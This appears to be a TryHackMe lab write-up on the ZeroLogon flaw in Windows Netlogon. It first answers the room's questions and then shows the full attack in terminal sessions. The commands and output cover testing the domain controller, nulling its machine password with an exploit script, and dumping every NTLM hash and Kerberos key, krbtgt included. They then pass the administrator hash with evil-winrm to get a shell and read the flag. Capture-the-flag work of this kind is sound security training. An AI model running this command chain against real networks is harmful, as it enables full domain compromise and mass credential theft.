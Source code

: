 # ZeroLogon

## MS-NRPC Logon Process

<p align="center">
  <img src="msnrpc-auth-zerologon-attack.png" >
</p>


## Proof Of Concept:

-  What method will allow us to change Passwords over NRPC?
`NetrServerPasswordSet2`

- What are the required fields for the method per the Microsoft Documentation?
`PrimaryName,AccountName,SecureChannelType,ComputerName,Authenticator,ReturnAuthenticactor,ClearNewPassword`

- What Opnumber is the Method?
`30`

## Lab It Up

- What is the NetBIOS name of the Domain Controller?
`DC01`

- What is the NetBIOS domain name of the network?
`hololive`

- What domain are you attacking?
`hololive.local`

-  What is the Local Administrator's NTLM hash?
`3f3ef89114fb063e3d7fc23c20f65568`

- How many Domain Admin accounts are there?
`2`

- What is the root flag?
`THM{Zer0Log0nD4rkTh1rty}`

## Vulnerbility In action

- Testing for zerologon vulnerbility

```bash
┌─[kali@kali]─[~/writeups/thm/zerologon]
└──╼ $python3 zerologon_tester.py DC01 10.10.102.71
Performing authentication attempts...
============================================================================================================================================================================================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

- Exploiting ZeroLogon

```bash
(impack) root@ip-10-10-53-27:~/Desktop# python3 zeroLogon-NullPass.py DC01 10.10.102.71

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz

Performing authentication attempts...

Zero Logon successfully exploited, changing password.


(impack) root@ip-10-10-53-27:~/Desktop# secretsdump.py -just-dc -no-pass dc01\$@10.10.102.71
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up...

(impack) root@ip-10-10-53-27:~/Desktop# evil-winrm -i 10.10.102.71 -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
THM{Zer0Log0nD4rkTh1rty}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> powershell.exe -c 'Reset-ComputerMachinePassword'
```

## Reference

- Zerologon explained by [Trendmicro](https://www.trendmicro.com/en_us/what-is/zerologon.html)

